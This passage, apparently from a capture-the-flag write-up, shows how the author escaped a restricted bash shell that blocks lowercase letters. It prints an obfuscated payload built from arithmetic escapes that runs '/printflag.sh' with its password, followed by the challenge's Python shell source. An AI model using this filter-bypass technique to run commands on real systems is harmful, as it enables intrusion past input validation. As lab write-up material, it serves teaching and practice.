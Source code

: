 
```
./convert.sh /printflag.sh B4sh_br0TH3rs
string: 2f7072696e74666c61672e736820423473685f6272305448337273
${0}<<<{$\'\\$(($((1<<1))#111001))\\$(($((1<<1))#10100000))\\$(($((1<<1))#10100010))\\$(($((1<<1))#10010111))\\$(($((1<<1))#10011100))\\$(($((1<<1))#10100100))\\$(($((1<<1))#10010010))\\$(($((1<<1))#10011010))\\$(($((1<<1))#10001101))\\$(($((1<<1))#10010011))\\$(($((1<<1))#111000))\\$(($((1<<1))#10100011))\\$(($((1<<1))#10010110))\',$\'\\$(($((1<<1))#1100110))\\$(($((1<<1))#1000000))\\$(($((1<<1))#10100011))\\$(($((1<<1))#10010110))\\$(($((1<<1))#10001001))\\$(($((1<<1))#10001110))\\$(($((1<<1))#10100010))\\$(($((1<<1))#111100))\\$(($((1<<1))#1111100))\\$(($((1<<1))#1101110))\\$(($((1<<1))#111111))\\$(($((1<<1))#10100010))\\$(($((1<<1))#10100011))\',}
```

then i just had to get the flag:

<img width="726" alt="image" src="https://user-images.githubusercontent.com/2973929/234142293-7f6fe5fd-d15c-402e-b088-2e1852c219fc.png">

## Solution 2:

I mean... I was happy that I had solved that challenge, but I spent the rest of the days thinking my solution was overkill. As I ended up having a way to run any command I wanted, I could, for example, read the code for the limited shell:

```python
#!/bin/usr/env python3

import subprocess
import re
import os
import random
from inputimeout import inputimeout, TimeoutOccurred

NOT_ALLOWED = re.compile("[a-z*?.]")

def create_tmp_dir():
    random_name = ''.join(random.choice('abcdefghijklmnopqrstuvwxyz') for x in range(32))
    dir_name = f'/tmp/{random_name}'
    os.mkdir(dir_name)
    return dir_name

def main(directory):
    print('Welcome to Crash Bash!')
    print('To get the flag, call /printflag.sh with the password!')
    print('Enter "q" to quit.')
    print('----------------------')
    do_run = True
    while do_run:
        try:
            inp = inputimeout(prompt='crashbash$ ', timeout=30)
            if 'q' == inp:
                print('Bye!')
                do_run = False
            elif NOT_ALLOWED.search(inp):
                print('Invalid input, bash crashed!')
            else:
                try:
                    subprocess.run(['/bin/bash', '-c', inp], stdin=subprocess.PIPE, timeout=20, cwd=directory)
                except subprocess.TimeoutExpired:
                    print("Timeout")
        except:
            print('Timeout, bye!')
            do_run = False

if __name__ == '__main__':
```